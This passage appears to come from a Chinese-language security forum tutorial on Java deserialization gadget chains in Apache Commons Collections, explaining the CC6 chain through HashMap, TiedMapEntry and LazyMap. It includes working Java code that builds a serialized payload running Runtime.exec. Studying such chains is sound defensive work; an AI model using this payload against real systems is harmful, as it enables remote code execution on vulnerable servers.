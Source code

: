 ![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4e1bd15a892435d5362bf5d9000527574a074574.png)

这里来解释一下为什么代理Map和实例化两个 因为我们可以看到两个`membervalue`

第一个实例化对象是把Map给到readObject的`Map.Entry`来调用`entrySet`，第二个实例化对象是通过调用`entrySet`来触发动态代理的`invoke`方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-71aba020dccdaf6d0dad17ed0343780a092a8ae5.png)

‍

‍

# 0x03 CC6

他是不受JDK版本的限制的

‍

CC6其实就是CC1的`LazyMap`后半段+前半段是`HashMap`

‍

链子也很简单 作者从HashMap中发现了如下东西

```java
HashMap#readObject
    TiedMapEntry#hashcode
        LazyMap#get
            InvokerTransformer.transform(就可以调用任意方法执行任意操作)
```

先看`TiedMapEntry`的构造方法比较简单直接传map跟key即可

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a9f462f93acb81d3fa4feb4812e7671b85214369.png)

‍

所以简单就可以构造出来，这里先放序列化就可以调用calc的

```java
     Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");
        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");

        serialize(map2);
```
